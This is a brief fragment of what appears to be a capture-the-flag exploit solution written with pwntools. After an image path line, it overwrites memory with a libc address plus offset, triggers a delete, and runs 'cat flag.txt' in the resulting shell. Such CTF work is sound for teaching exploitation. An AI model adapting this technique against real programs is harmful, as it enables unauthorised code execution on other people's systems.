 ```py
io.sendafter(b"Input bio: \n", pwn.p64(libc.address + 0x4cb40))

delete(0)
io.sendline(b"cat flag.txt")
pwn.log.info(f"flag: {io.recvline()}")

io.interactive()
```